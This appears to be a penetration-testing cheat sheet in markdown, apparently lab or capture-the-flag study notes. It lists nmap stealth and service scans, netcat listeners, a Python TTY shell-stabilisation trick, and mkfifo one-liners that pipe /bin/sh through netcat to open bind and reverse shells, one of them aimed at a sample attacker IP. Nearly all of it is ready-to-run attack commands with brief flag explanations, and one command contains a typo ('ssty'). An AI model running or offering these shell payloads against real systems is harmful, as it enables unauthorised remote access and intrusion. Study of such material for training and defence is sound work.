 # SUMMARY OF SCRIPTS AND USER CASES

## NMAP 
```
sudo nmap -sS -sV -sC -T4 --min-rate 8888 $TARGET -vv
# -sS: stealth
# -sC: scripting
# -sV: service detection
# -T4: aggresiveness
# --min-rate: packet strength 

nmap -sV --script=http-enum $TARGET
```
## NETCAT 
```
#REVERSE SHELL 
nc -lvnp <port-number>
# -l: listen
# -v: verbose
# -n: no dns resolve
# -p: specify port
nc -lvnp 4444

#BIND SHELL
nc <target-ip> <port-number>
# This will connect to the listener
nc 10.10.10.10 4444
```

**STABILIZE SHELL**. 
```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
`Ctrl + z` 
ssty raw -echo; fg
```


**BIND SHELL PRACTICE for netcat without -e**
```
PORT=4444
mkfifo /tmp/f; nc -lvnp $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# ATTACKER MACHINE WILL HAVE TO CONNECT TO VICTIM 
```

**REVERSE SHELL PRACTICE for netcat without -e**
```
IP=10.10.93.13
PORT=4444
mkfifo /tmp/f; nc $IP $PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# VICTIM MACHINE WILL CONNECT TO YOU, SO ATTACKER MACHINE SHOULD HAVE LISTENER OPEN BEFORE CONNECTION 
```
